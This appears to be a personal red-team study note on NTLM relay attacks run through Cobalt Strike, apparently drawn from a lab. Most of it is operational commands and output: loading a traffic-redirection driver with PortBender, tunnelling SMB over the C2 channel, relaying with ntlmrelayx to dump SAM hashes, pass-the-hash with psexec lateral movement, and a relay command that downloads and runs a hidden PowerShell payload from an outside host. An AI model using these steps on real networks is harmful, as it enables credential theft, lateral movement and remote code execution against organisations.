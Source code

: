```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[NTLM Relaying]]  
___

## Description:  

In an NTLM relay attack, an attacker is able to intercept or capture this authentication traffic and effectively allows them to impersonate the client against the same, or another service.  For instance, a client attempts to connect to Service A, but the attacker intercepts the authentication traffic and uses it to connect to Service B as though they were the client.

### Kali
[[ntlmrelayx.py]]

[[responder]]

### CobaltStrike
1.  Use a [driver](https://reqrypt.org/windivert.html) to redirect traffic destined for port 445 to another port (e.g. 8445) that we can bind to.
2.  Use a reverse port forward on the port the SMB traffic is being redirected to.  This will tunnel the SMB traffic over the C2 channel to our Team Server.
3.  The tool of choice (ntlmrelayx) will be listening for SMB traffic on the Team Server.
4.  A SOCKS proxy is required to allow ntlmrelayx to send traffic back into the target network.


[PortBender](https://github.com/praetorian-inc/PortBender) is a reflective DLL and Aggressor script specifically designed to help facilitate this through Cobalt Strike.  It requires local admin access in order for the driver to be loaded, and that the driver be located in the current working directory of the Beacon.  It makes sense to use `C:\Windows\System32\drivers` since this is where most Windows drivers go.

```
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> pwd
[*] Current directory is C:\Windows\system32\drivers

beacon> upload C:\Tools\PortBender\WinDivert64.sys
```
Next, load `PortBender.cna` from `C:\Tools\PortBender` - this adds a new `PortBender` command to the console.
```
beacon> help PortBender
Redirect Usage: PortBender redirect FakeDstPort RedirectedPort
Backdoor Usage: PortBender backdoor FakeDstPort RedirectedPort Password
Examples:
	PortBender redirect 445 8445
	PortBender backdoor 443 3389 praetorian.antihacker
```

Execute PortBender to redirect traffic from 445 to port 8445.

This will break any SMB service on the machine!

```
beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
```

Next, create a reverse port forward that will then relay the traffic from port 8445 to port 445 on the Team Server (where ntlmrelayx will be waiting).
```
beacon> rportfwd 8445 127.0.0.1 445
[+] started reverse port forward on 8445 to 127.0.0.1:445
```

We also need the SOCKS proxy so that ntlmrelayx can send responses to the target machine.
```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```


start ntlmrelayx By default it will use [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) to dump the local SAM hashes from the target machine (you can also use a target list like it was done here [[ntlmrelayx.py#^a8df20]].

```
proxyxhains python3 /usr/local/bin/ntlmrelayx.py smb://10.10.17.68 -smb2support --no-http-server --no-wcf-server
```

Now wait for traffic (or for a POC you can generate it yourself). Or you can try to force authentication [[Forcing NTLM Authentication]]

```
H:\>hostname
wkstn-2

H:\>whoami
dev\nlamb

H:\>dir \\10.10.17.231\blah

```

Local NTLM hashes could then be cracked or used with pass-the-hash.

```
beacon> pth .\Administrator b423cdd3ad21718de4490d9344afef72

beacon> jump psexec64 srv-2 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_a3) on srv-2 via Service Control Manager (\\srv-2\ADMIN$\3695e43.exe)
Started service 3695e43 on srv-2
[+] established link to child beacon: 10.10.17.68

```

Instead of being limited to dumping NTLM hashes, ntlmrelayx also allows you to execute an arbitrary command against the target.  In this example, I download and execute a PowerShell payload.

```
root@kali:~# proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://10.10.17.68 -smb2support --no-http-server --no-wcf-server -c
'powershell -nop -w hidden -c "iex (new-object net.webclient).downloadstring(\"http://10.10.17.231:8080/b\")"'

```

To stop PortBender, stop the job and kill the spawned process.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 0    1240  PortBender

beacon> jobkill 0
beacon> kill 1240

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (10:55 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
